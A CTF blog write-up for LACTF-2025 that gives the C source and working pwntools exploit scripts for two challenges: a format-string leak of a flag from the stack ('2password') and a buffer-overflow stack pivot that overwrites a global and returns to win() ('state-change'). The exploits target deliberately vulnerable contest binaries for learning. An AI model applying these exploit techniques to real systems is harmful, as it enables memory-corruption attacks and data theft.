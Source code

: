 ```yaml
---
title: "LACTF-2025"
date: 2024-10-02 00:00:00 +0800
categories: [pwn]
tags: [pwn,pivot,ret2gets,heap-overflow]
author: "kuvee"
layout: post

---
```


in this competition , i completed four chall . In the **Minecraft** chall , i also learned a lot about the ret2gets technique  

dowload file : [here](/assets/files/LACTF-2025.zip)
![score](assets/images/score.png)

# 2password



- this is warm-up chall , we will be entered 3 times , open the flag.txt  and read it into the stack

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

- Next is to use strcmp to check our input, but it doesn't do anything, we need attention to the code below

```c
printf(username)
```

Ill use this code to find the offset to the flag

```python
def generate(start: int, end: int, specifier: str = "p", seperator: str = "."):
    """ Generate a simple payload """
    payload = b""
    for i in range(start, end):
        payload += f"%{i}${specifier}{seperator}".encode()
    return payload
```

'}' in hex byte is 0x7d : 

![fsb](assets/images/fsb.png)


script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched",checksec=False)
#libc = ELF("./libc.so.6")
#ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('chall.lac.tf', 31142)

def generate(start: int, end: int, specifier: str = "p", seperator: str = "."):
    """ Generate a simple payload """
    payload = b""
    for i in range(start, end):
        payload += f"%{i}${specifier}{seperator}".encode()
    return payload

def fix(payload: bytes, seperator: str = "."):
    """ Unhex the payload and return as a string """
    rt = b""
    for i in payload.split(b'.')[:-1]: # the last one is empty
        i = i[2:] # removing the 0x
        if i[0] == 97: # remove the newline
            i = i[1:]
        rt += unhex(i)[::-1] # unhex and rev
    return rt

pl = generate(6,9)
p.sendlineafter(b'username: ',pl)

p.sendlineafter(b'password1: ',b'kuvee')
p.sendlineafter(b'password2: ',b'kuvee@@zzzzz')

p.recvuntil(b'Incorrect password for user ')
leak = p.recvline()
print(fix(leak))

p.interactive()
```

![flag](/assets/images/flag.png)

# state-change

- code is very short, we can reverse it easy , In the vuln() function there is a bug **bof** and win() func to get flag , but in **win** check **state** with **0xf1eeee2d** , we need to satisfy this condition to get flag

```c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}
```

- i used **pivot** to change value of stage and return to **win** function to get flag

exp

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall')

#p = process()
p = remote('chall.lac.tf', 31593)

stage = 0x0000000000404540
offset = 32
gets = 0x00000000004012D0
pl = b'a'*32 + p64(stage+0x10) + p64(gets)
input()
p.sendafter(b'Who are you?',pl)

pl2 = b'b'*15 + p64(0xF1EEEE2D) + b'a'*16 + p64(exe.sym.win)
input()
p.sendline(pl2)


p.interactive()
```

![flag2](/assets/images/flag2.png)